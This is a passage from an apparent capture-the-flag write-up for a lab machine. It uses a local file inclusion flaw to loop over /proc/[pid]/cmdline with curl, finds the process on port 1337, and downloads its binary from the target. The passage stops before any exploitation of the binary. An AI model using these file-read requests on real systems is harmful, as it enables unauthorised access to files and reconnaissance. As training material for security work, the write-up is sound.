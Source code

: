 [This](https://linuxhint.com/use-proc-filesystem-linux/) is a good article if you need more on how proc works, but basically a running process on the box will have a related folder inside /proc. We can use our ability to read files to loop through all folders inside /proc looking for the process that's running on port 1337.

The docs for proc tell us that the file called **cmdline** is what we need:

```text
  /proc/[pid]/cmdline
              This read-only file holds the complete command line for
              the process, unless the process is a zombie.
```

## Find PID

So we want to echo the contents that file inside of each [PID] folder:

```sh
┌──(root㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─# for i in {410..415}; do curl -s http://10.10.11.154/index.php?page=/proc/$i/cmdline --output -; echo " <--" $i; done
 <-- 410
/usr/bin/activate_license1337 <-- 411
 <-- 412
 <-- 413
 <-- 414
 <-- 415
```

## Activate_license Binary

This is the shortened loop to save you waiting while it runs through hundreds of folders. As you can see there is a folder **/proc/411/** which contains a file called **cmdline** this contains the path to the binary that is running on that process ID [PID]. Now we have the full path to the activate_license binary we can download it:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# curl "http://10.10.11.154/index.php?page=/usr/bin/activate_license" -o activate_license
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 22536    0 22536    0     0   293k      0 --:--:-- --:--:-- --:--:--  297k

┌──(root㉿kali)-[~/htb/retired]
└─# file activate_license
activate_license: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=554631debe5b40be0f96cabea315eedd2439fb81, for GNU/Linux 3.2.0, with debug_info, not stripped
```

We have the file locally now on Kali. It's an executable, so pretty safe to assume we need to find a vulnerability like a buffer overflow.

First check the security on it:
